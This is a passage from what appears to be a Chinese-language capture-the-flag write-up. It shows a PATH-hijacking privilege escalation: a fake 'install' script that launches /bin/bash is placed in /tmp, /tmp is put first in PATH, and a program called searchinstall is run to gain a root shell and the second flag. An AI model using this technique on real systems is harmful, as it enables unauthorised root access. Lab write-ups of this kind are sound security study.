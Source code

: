 

### 劫持环境变量提权

```
touch /tmp/install
chmod +x /tmp/install
echo '/bin/bash' >> /tmp/install
```

![image-20250309122328890](./assets/image-20250309122328890.png)

首先在tmp目录下创建install文件，赋予执行权限，并追加“/bin/bash”，即利用该命令打开bash



### 将tmp目录添加到$PATH的开头

```
export PATH=/tmp:$PATH
./searchinstall
whoami
```

![image-20250309122543151](./assets/image-20250309122543151.png)



### 得到第二个flag

![image-20250309122631185](./assets/image-20250309122631185.png)